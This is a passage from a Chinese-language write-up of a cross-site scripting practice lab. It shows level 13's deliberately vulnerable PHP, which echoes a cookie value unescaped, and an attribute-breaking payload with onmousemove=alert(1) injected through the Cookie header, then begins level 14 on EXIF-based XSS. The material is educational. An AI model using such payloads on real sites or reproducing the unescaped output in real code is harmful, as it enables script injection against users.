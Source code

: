 ```php
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
<center><img src=level13.png></center>
<?php 
echo "<h3 align=center>payload的长度:".strlen($str)."</h3>";
?>
</body>
</html>
```

### 注入过程

F12查看元素

[![img](https://img.cccb.rr.nu/path/202504101640331.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131755750.png)

看到这个值，在对比上一关抓包的图，可以知道是Cookie注入了。继续抓包。

[![img](https://img.cccb.rr.nu/path/202504101640332.png)](https://gitee.com/Look___back/image/raw/master/Typora_img/202307131757560.png)

payload：



```vbnet
" type="text" onmousemove="alert(1)
```

## Level14 (exif xss)

### 源码



```php
<html>
<head>
<meta http-equiv="content-type" content="text/html;charset=utf-8">
<title>欢迎来到level14</title>
</head>
<body>
<h1 align=center>欢迎来到level14</h1>
<center><iframe name="leftframe" marginwidth=10 marginheight=10 src="http://www.exifviewer.org/" frameborder=no width="80%" scrolling="no" height=80%></iframe></center><center>这关成功后不会自动跳转。成功者<a href=/xss/level15.php?src=1.gif>点我进level15</a></center>
</body>
</html>
```
